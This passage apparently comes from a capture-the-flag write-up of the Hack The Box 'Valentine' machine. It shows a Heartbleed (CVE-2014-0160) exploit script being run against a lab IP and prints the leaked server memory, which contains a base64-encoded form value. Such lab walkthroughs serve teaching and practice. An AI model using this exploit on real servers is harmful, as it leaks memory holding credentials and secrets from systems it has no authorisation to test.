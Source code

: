 // there is a grate [Python script](https://github.com/eelsivart/10174134) that exploit this vulnurable

// save the script to ==> hb.py

    $ python hb.py 10.10.10.79 -p 443 -n 100
------

    defribulator v1.16
    A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

    ##################################################################
    Connecting to: 10.10.10.79:443, 100 times
    Sending Client Hello for TLSv1.0
    Received Server Hello for TLSv1.0

    WARNING: 10.10.10.79:443 returned more data than it should - server is vulnerable!
    Please wait... connection attempt 100 of 100
    ##################################################################

    .........3.2.....E.D...../...A.................................I.........
    ...........
    ...................................#.......0.0.1/decode.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 42

    $text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==w...a.H.../.n....asq.@....SC[...r....+..H...9...
    ....w.3....f...
    ...!.9.8.........5...............
    .........3.2.....E.D...../...A.................................I.........
    ...........
    ...................................#q



// we got encoded text , lets  decode him with [CyberChef](https://gchq.github.io/CyberChef/)

![Image 7](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Valentine/7.png)
